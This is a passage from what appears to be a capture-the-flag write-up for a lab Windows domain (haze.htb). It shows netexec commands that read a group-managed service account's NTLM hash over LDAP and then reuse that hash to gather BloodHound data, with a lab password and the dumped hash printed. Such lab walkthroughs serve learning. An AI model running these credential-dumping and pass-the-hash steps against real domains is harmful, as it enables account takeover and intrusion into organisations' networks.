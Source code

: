 So all we need is that command.

```bash
➜  Haze nxc ldap DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       10.10.11.61     636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAPS       10.10.11.61     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.61     636    DC01             Account: Haze-IT-Backup$      NTLM: 4de830d1d58c14e241aff55f82ecdba1     PrincipalsAllowedToReadPassword: gMSA_Managers
```

now we got it!!!! Haze-IT-Backup$ : 4de830d1d58c14e241aff55f82ecdba1

### Second-time-bloodhound

Once we obtain this, let us acquire another set of bloodhound data:

```bash
nxc ldap DC01.haze.htb -u Haze-IT-Backup$ -H 4de830d1d58c14e241aff55f82ecdba1 --bloodhound --dns-server 10.10.11.61 --collection all
```

now u can see difference.

![alt text](../assets/images/haze16.png)

Lets see our attack vector first!!!
